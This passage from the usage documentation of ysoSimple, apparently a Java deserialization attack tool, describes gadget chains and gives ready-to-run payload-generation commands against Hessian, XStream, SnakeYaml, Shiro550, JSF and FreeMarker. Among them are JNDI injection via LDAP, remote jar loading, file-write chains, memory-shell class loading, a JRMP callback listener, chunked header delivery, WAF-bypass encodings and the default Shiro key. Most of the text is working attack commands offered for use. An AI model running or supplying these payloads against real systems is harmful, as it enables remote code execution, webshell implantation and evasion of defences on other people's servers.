Hessian2Input#except方法中存在反序列对象触发toString，所以目前最新版4.0.66的Caucho Hessian2也可以打Hessian Except toString

##### Sofa Hessian2Input#except

Sofa Hessian最新版4.0.4中存在反序列化的obj对象触发toString的情况

##### HessianLite Hessian2Input#except

HessianLite 3.2.11版本的Hessian2Input#except方法中存在反序列化的obj对象触发toString的情况

在HessianLite 3.2.12版本中except方法已经修复了该问题


并且在上面讲黑名单的时候也提到过HessianLite自3.2.12开始已经将`javax.swing.*`包下的类都加入到黑名单中，所以`javax.swing.UIDefaults`的相关攻击链都不能进行利用。

#### toString利用链(PKCS9Attributes & MimeTypeParameterList)

通过前辈们的分享有以下俩个jdk自带的类，它们的toString方法可以触发`UIDefaults#get`​的利用：

* PKCS9Attributes#toString：触发SwingLazyValue#createValue

```http
PKCS9Attributes#toString()
 -PKCS9Attributes#getAttribute(ObjectIdentifier var1)
	-HashTable#get()
	-UIDefaults#get(Object key)
	  -UIDefaults#getFromHashtable(final Object key)
		-UIDefaults$ProxyLazyValue#createValue(UIDefaults var1)
		-SwingLazyValue#createValue(UIDefaults var1)
```

* MimeTypeParameterList#toString：和PKCS9Attributes功能类似，都可以触发 UIDefaults#get(Object key) 后续的调用链

```http
MimeTypeParameterList#toString()
    -HashTable#get()
	-UIDefaults#get(Object key)
	  -UIDefaults#getFromHashtable(final Object key)
	  	-UIDefaults$ProxyLazyValue#createValue(UIDefaults var1)
	  	-SwingLazyValue#createValue(UIDefaults var1)
```

但是这种打法不如Hessian反序列化触发HashMap的readObject然后引发UIDefaults#get(Object key)来的直接，所以目前还没集成

###  还未集成的链子(Other)

在一些CTF和文章中学到关于Hessian还有其他的链子，这里收集下：

https://quick-mascara-699.notion.site/Syclover-SUCTF-WP-177370c566a481ff9a01ebed7f0c87f8

## 3.XStream 反序列化(​XStreamAttack)

### 额外的参数

XStreamAttack模块支持以下额外的参数：

* writeToFile：将生成的Payload写入到文件中

#### writeToFile 写入到文件

描述：将XStream的Payload写入到文件中

工具：writeToFile参数后面追加文件名

```java
-m XStreamAttack -g FindClassByBomb -a "java.lang.String|28" -writeToFile "/tmp/xstream.xml"
```

### FindClassByBomb

描述：生成XStream延迟Payload，无论有漏洞还是无漏洞的XStream版本组件都可以延迟，作用：

1. 作用1：用于测试环境是否使用XStream组件
2. 作用2：测试环境中是否有某个类(探测依赖)

工具：竖杠前面时类名，后面是反序列化的深度

```java
-m XStreamAttack -g FindClassByBomb -a "java.lang.String|28"
```

## 4.SnakeYaml反序列化(​SnakeYamlAttack)

### 额外的参数

SnakeYamlAttack模块支持如下额外的参数：

* waf-bypass：三种绕WAF的方式：类名tag1变形，类名tag2变形，类名classNameURLEncode
* writeToFile：将生成的Payload写入到文件中

SnakeYaml系列的一些打法可以参考我写的这篇文章：[2023 华北分区赛 normal_snake](https://www.cnblogs.com/BUTLER/p/17473487.html)

#### waf-bypass 类名变换

描述：SnakeYaml支持将类名的格式变换，学习浅蓝师傅的[SnakeYaml反序列化的一个小trick](https://b1ue.cn/archives/407.html)文章

工具：使用方式如下：

1. 类名变换方式1：`!<tag:yaml.org,2002:com.sun.rowset.JdbcRowSetImpl>`​

```java
-m SnakeYamlAttack -g JdbcRowSetImpl -a "ldap://127.0.0.1:1389/" -waf-bypass "tag1"
```

2. 类名变换方式2：`%TAG !      tag:yaml.org,2002:`​

```java
-m SnakeYamlAttack -g JdbcRowSetImpl -a "ldap://127.0.0.1:1389/" -waf-bypass "tag2"
```

3. 类名URL编码：

```java
-m SnakeYamlAttack -g JdbcRowSetImpl -a "ldap://127.0.0.1:1389/" -waf-bypass "classNameURLEncode"
```

#### writeToFile 写入到文件

描述：将生成的Payload写入到文件中

工具：writeToFile参数后的参数值是文件名

```java
-m SnakeYamlAttack -g JdbcRowSetImpl -a "ldap://127.0.0.1:1389/" -writeToFile "/tmp/snakeyaml.txt"
```

### FindClassByDNS

描述：在出网环境下探测Snakeyaml漏洞是否存在或者探测某个Gadgets是否存在。

工具：竖杠前面是类名，后面是dns域名

```bash
-m SnakeYamlAttack -g FindClassByDNS -a "java.lang.String|emdzjnwvao.zaza.eu.org"
```

### JdbcRowSetImpl

描述：使用JDK的JdbcRowSetImpl类来触发JNDI注入

工具：args参数中写jndi的地址

```java
-m SnakeYamlAttack -g JdbcRowSetImpl -a "ldap://127.0.0.1:1389/"
```

### ScriptEngineManager

描述：使用JavaScript引擎来加载jar包来RCE，jar包的构造参考这个项目：[https://github.com/artsploit/yaml-payload](https://github.com/artsploit/yaml-payload)。该SPI攻击手法由于第一次加载后会将类加载到jvm中，所以有漏洞利用需求变化类字节码时要更改类名

工具：args参数中写加载jar包的地址。如果是远程加载jar包可以使用ThirdPartyAttack模块生成jarPayload然后开启监听，进行漏洞利用。如果是不出网环境想本地加载jar包，可以使用SnakeYaml的MarshalOutputStream链写文件然后在本地加载进行漏洞利用。

```java
-m SnakeYamlAttack -g ScriptEngineManager -a "http://127.0.0.1:2333/yaml-payload.jar"
    
-m SnakeYamlAttack -g ScriptEngineManager -a "file:///success.jar"
```

使用ThirdPartyAttack模块生成jarPayload：

```java
-m ThirdPartyAttack -g CustomClass -a "auto_cmd:calc" -jarPayload "ScriptEngineFactory" -writeToFile "/tmp/"
```

### C3P0-JNDI利用链

描述：SnakeYaml反序列化利用JndiRefForwardingDataSource类触发jndi注入

工具：args参数中写jndi的连接串

```java
-m SnakeYamlAttack -g C3P0_JNDI -a "ldap://127.0.0.1:1389/"
```

### C3P0-Yso利用链

描述：在C3P0依赖中的com.mchange.v2.c3p0.WrapperConnectionPoolDataSource类在反序列化过程中会对userOverridesAsString属性值进行Java反序列化

工具：args参数中第一个值是反序列化利用链，后续跟利用链的漏洞利用参数

```java
-m SnakeYamlAttack -g C3P0_Yso -a "FastJson1:Templateslmpl:auto_cmd:calc"
```

###  H2-DataBase利用链

描述：org.h2.jdbc.JdbcConnection的实例化方法接受jdbc url，然后在其实例化时会触发jdbc url连接，snakeyaml可利用其实例化进行攻击

工具：因为不同版本的H2-database数据库的org.h2.jdbc.JdbcConnection实例化方法参数不同，所以ysoSimple会生成俩条利用链

```java
-m SnakeYamlAttack -g H2DataBase -a "H2CreateAlias:auto_cmd:calc"
    
-m SnakeYamlAttack -g H2DataBase -a "H2CreateAlias:springframework_echo:id"
```

###  MarshalOutputStream 利用链

描述：该利用链学习参考：[从HertzBeat聊聊SnakeYAML反序列化](https://mp.weixin.qq.com/s/m8lQmnBUNRYuN1Mv4J5_ng)。MarshalOutputStream 利用链是条JDK写文件的利用链：

- 该Payload可以分为4层：三个构造方法和 java.util.zip.Inflater 的 setInput 方法
- `!!java.io.File`写入文件的目录必须要存在
- `!!binary`的值是经过Inflater压缩后Base64编码后的内容

```
sun.rmi.server.MarshalOutputStream(OutputStream var1)
java.util.zip.InflaterOutputStream(OutputStream out, Inflater infl, int bufLen)
	java.io.FileOutputStream(File file, boolean append)
	java.util.zip.Inflater().setInput(byte[] b, int off, int len)
```

工具：最后写文件的格式为：`{source.file}|{destation.file}`，工具会读取source.file也就是你本地这个文件的内容，然后写入目标系统的文件是destation.file。在目标是windows系统中工具的destation.file参数必须用`\\`来分割目录和文件，因为该利用链的Payload中文件路径在Windows系统中要用`\\`分割。

```
-m SnakeYamlAttack -g MarshalOutputStream -a "C:\Users\butler\Desktop\Memshell\EncryptionUtil.class|D:\\04Testing\\Memshell\\EncryptionUtil.class"
```

## 5.Shiro550反序列化(YsoAttack)

### 额外的参数

YsoSimple中关于Shiro550有俩个必须要增加的参数：

* shiro-encrypt：指定AES加密的方式
* shiro-key：指定AES加密密钥key

#### Shiro加密方式

描述：Shiro有俩种加密方式CBC和GCM，高版本Shiro 1.4.2版本更换为了AES-GCM加密方式。漏洞利用时要确保加密方式和密钥首先正确

工具：使用-shiro-encrypt参数指定AES-CBC或AES-GCM，如果不带shiro-key参数则默认的加密key是kPH+bIxk5D2deZiIxcaaaA==

```python
-m YsoAttack -g PrincipalCollectionShiroKeyTest -shiro-encrypt "AES-CBC"
```

#### Shiro-key指定密钥

描述：Shiro基于AES对称加密，加解密都需要密钥key

工具：使用-shiro-key参数指定要使用的加密key

```python
-m YsoAttack -g PrincipalCollectionShiroKeyTest -shiro-encrypt "AES-CBC" -shiro-key "kPH+bIxk5D2deZiIxcaaaA=="
```

### Shiro反序列化攻击思路

Shiro站点的整体攻击思路：

1. 目标是否使用Shiro确认：请求包发送rememberMe\=1，返回包中出现deleteMe头则为Shiro
2. 加密方式和密钥Key确认：PrincipalCollectionShiroKeyTest链
3. 利用链/中间件环境/JDK版本确认：FindClassByDNS/FindGadgetByDNS/FindClassByBomb
4. 利用连漏洞利用：直接攻击/字节码分离加载/JRMP反连/ShiroChunkPayload分块传输
5. Shiro绕WAF：

    1. HTTP请求包变形
    2. Shiro-Base64编码混淆

### 检测Shiro的key是否正确

描述：当Shiro在处理RememberMe时候，如果密钥正确并且反序列化成功且返回的是对象是PrincipalCollection，不会触发异常，响应包不会带上deleteMe的头，所以可以序列化SimplePrincipalCollection对象来测试Shiro的加密方式和key是否正确。学习自：[基于SimplePrincipalCollection检测key是否正确](https://www.cnblogs.com/zpchcbd/p/15092263.html)

工具：使用PrincipalCollectionShiroKeyTest利用链来检测当前key是否正确

```python
-m YsoAttack -g PrincipalCollectionShiroKeyTest -shiro-encrypt "AES-CBC" -shiro-key "kPH+bIxk5D2deZiIxcaaaA=="
```

* 当Shiro Key正确时：响应中没有deleteMe



* 当Shiro Key错误时：响应中有deleteMe



### 利用链Gadget直接攻击

描述：当确定目标站点的Shiro加密方式和密钥以及利用链之后，就可以使用Gadget进行攻击了

工具：-g参数指定利用链，-a参数指定利用链对应的漏洞利用效果，后面加上-shiro-encrypt和-shiro-key参数即可使用Shiro加密

Shiro自带1.9x，下面用CommonsBeanutils2来举例：

* 使用指定密钥生成payload：

```java
-m YsoAttack -g CommonsBeanutils2 -a "Templateslmpl:sleep:10" -shiro-encrypt "AES-CBC" -shiro-key "kPH+bIxk5D2deZiIxcaaaA=="
```

* TemplatesImpl加载.class内存马

```java
-m YsoAttack -g CommonsBeanutils2 -a 'Templateslmpl:class_file:/tmp/SessionDataUtil.class' -shiro-encrypt "AES-CBC" -shiro-key "kPH+bIxk5D2deZiIxcaaaA=="
```

### 字节码分离加载

#### SpringMVC defineClass

描述：在SpringMVC中间件的场景下，如果限制请求header的长度可以使用从请求体中字节码分离加载的方式来减少长度

工具：shiro_spring_loadclass:classData 的功能是从classData参数中读取字节码并用ClassLoader加载

```java
-m YsoAttack -g CommonsBeanutils2 -a "Templateslmpl:shiro_spring_loadclass:classData" -shiro-encrypt "AES-CBC"
```

在HTTP的remeberMe中填充ysoSimple生成的payload，POST的classData中填充Base64格式内存马：



#### Tomcat defineCLass

描述：在Tomcat中间件的场景下，如果限制请求header的长度可以使用从请求体中类分离加载的方式来减少长度

工具：shiro_tomcat_loadclass:user 的功能是从user参数中读取字节码并用ClassLoader加载

```java
-m YsoAttack -g CommonsBeanutils2 -a "Templateslmpl:shiro_tomcat_loadclass:user" -shiro-encrypt "AES-CBC"
```

在HTTP的remeberMe中填充上述第二步ysoserial生成的payload，POST的user参数中填充Base64格式内存马：记得URI编码



### Base64混淆(waf绕过)

描述：关于Shiro绕WAF可归纳为俩种方式：

1. HTTP请求包变形
2. Shiro-Base64编码混淆

工具：Shiro在对RememberMe数据进行Base64解密时会先剔除些不合法的特殊字符：`{'$','#','&','!','%','*','-','.'}`​，YsoSimple工具集成该混淆方式。通过添加-shiro-base64WafBypass参数并指定垃圾字符的数量来绕waf，使用如下：

```bash
-m YsoAttack -g CommonsBeanutils2 -a "Templateslmpl:auto_cmd:calc" -shiro-base64WafBypass 150 -shiro-encrypt "AES-CBC"
```

### JRMP 反连攻击

描述：如果目标Shiro环境的jrmp出网，jdk<8u241即可让目标反序列化JRMPClient2利用链，然后反连我们监听的JRMPListener来再次接受Java序列化利用链，目标系统再次反序列化将进行漏洞利用。这个链有很俩个很大的优势：1.利用链足够短；2.不受Tomcat6.0，undertow对TemplatesImpl的限制。

限制：目标Shiro环境的jrmp出网，jdk<8u241

工具：使用该攻击方式分为俩步

1. JRMPListener开启RMI服务端监听：

```java
java -cp ysoSimple.jar cn.butler.yso.exploit.JRMPListener 2333 CommonsBeanutils2 "Templateslmpl:dnslog:ywsoxsrsvj.yutu.eu.org"
```

2. 让目标系统反序列化JRMPClient2完成攻击：

```java
-m YsoAttack -g JRMPClient2 -a "127.0.0.1:1245" -shiro-encrypt "AES-CBC" -shiro-key "kPH+bIxk5D2deZiIxcaaaA=="
```

### 分块设置系统属性写马

描述：Shiro分块在目标系统中写字节码以解决字节码长度过长导致header发不过去。参考bmth666师傅写的[好文](http://www.bmth666.cn/2024/11/03/Shiro%E7%BB%95%E8%BF%87Header%E9%95%BF%E5%BA%A6%E9%99%90%E5%88%B6%E8%BF%9B%E9%98%B6%E5%88%A9%E7%94%A8/)，大师傅提供了三种方法，我在工具集成中了最后一种设置系统属性写字节码。

限制：注意以下限制

1. 我实践打成功的是CB利用链分块写马然后类加载，其他的利用链没有尝试和集成
2. 对于undertow，tomcat6.0等这种系统不能调用TemplatesImpl这种打法目前就应该不行了

工具：需要为ShiroChunkPayload类提供5个参数，各个参数的含义如下：

1. 参数一：反序列化的利用链，CommonsBeanutils2
2. 参数二：加密模式GCM或者CBC
3. 参数三：AES加密的密钥Key
4. 参数四：需要分块加载的字节码的位置
5. 参数五：分块Payload输出的文件位置，一行一个Payload方便用于Burp/Yakit的Intruder

ShiroChunkPayload部分使用设置系统属性来分块写字节码，调用线程上下文类加载器来加载内存马。字节码分块时候默认按照每块字节码的1000长度来分然后Gadget封装。TemplatesImpl和Java字节码都没有进行Compress压缩处理，所以Gadget没有使用任何缩短技术，这块其实还可以做文章来缩短Payload。Usage:

```bash
java -cp ysoSimple.jar cn.butler.yso.exploit.ShiroChunkPayload [-g <gadget>] [-m <aseModel>] [-k <shiroKey>] [-f <fileClassByteCode>] [-o <fileOutput>] [-h]
```

例如：

```bash
java -cp ysoSimple.jar cn.butler.yso.exploit.ShiroChunkPayload -g CommonsBeanutils2 -m CBC -k kPH+bIxk5D2deZiIxcaaaA== -f /tmp/HTMLUtil.class -o /tmp/ShiroChunk.txt
```

使用上述命令后的工具生成的最终效果：

然后将 /tmp/ShiroChunk.txt 放入Yakit进行发包，在目标系统中的系统属性中写入字节码



最后发送类加载的Payload将会执行上述的字节码逻辑



### Shiro的奇怪问题

部分中间件的情况可能导致TemplatesImpl无法反序列化：[https://github.com/feihong-cs/ShiroExploit-Deprecated/issues/36](https://github.com/feihong-cs/ShiroExploit-Deprecated/issues/36)

目前整理中间件可能出现的情况：Jetty，Weblogic，Tomcat6.0，undertow

## 6.JSF 反序列化(YsoAttack)

描述：JSF的Payload生成逻辑是序列化-->GZIP压缩-->AES加密-->Base64加密。JSF2.2之前的规范不要求使用加密机制，所以会没有AES加密这一层。

工具：如果是JSF2.2之前不需要加密密钥的情况则需要在`-jsf-key`​后写"none"值，如果是有加密密钥的情况则需要在`-jsf-key`​之后写密钥。最后传输数据时候记得url编码。

```bash
-m YsoAttack -g FindClassByBomb -a "java.lang.String|23" -jsf-key "none"
```

使用JSF加密密钥的方式：

```bash
-m YsoAttack -g CommonsBeanutils2 -a "Templateslmpl:auto_cmd:calc" -jsf-key "kPH+bIxk5D2deZiIxcaaaA=="
```

## 7.SSTI 模板注入(​SSTIAttack)

SSTIAttack模块主要记录下Java中各种模板注入的Payload：

* [X] Freemarker
* [ ] Velocity
* [ ] Pebble

### 额外的参数

SSTIAttack模块支持以下额外的参数：

* writeToFile：将生成Payload结果写入到文件中

#### writeToFile

描述：将生成Payload结果写入到文件中

工具：

```java
-m SSTIAttack -g FreeMarkerExecute -a "calc" -writeToFile "/tmp/freemarker.txt"
```

### FreeMarker

关于FreeMarker的模板注入可以学习escape-w师傅的[freemarker模板注入](https://www.cnblogs.com/escape-w/p/17326592.html)文章，写的很好

FreeMarker语法：简单记一记

* assign定义变量：`<#assign applicationContext=springMacroRequestContext.webApplicationContext>`​
* 输出变量：`${applicationContext}`​

#### ?new 利用

##### Execute 命令执行

描述：FreeMarker的 ?new 内建函数freemarker.template.utility.Execute底层是调用Runtime.exec进行命令执行

限制：FreeMarker的new_builtin_class_resolver配置限制内建函数对类的访问(从 2.3.17版开始)，该配置有三种参数：

* UNRESTRICTED_RESOLVER：可以通过`ClassUtil.forName(String)`​获得任何类。
* SAFER_RESOLVER：禁止加载`ObjectConstructor`​，`Execute`​和`freemarker.template.utility.JythonRuntime`​这三个类
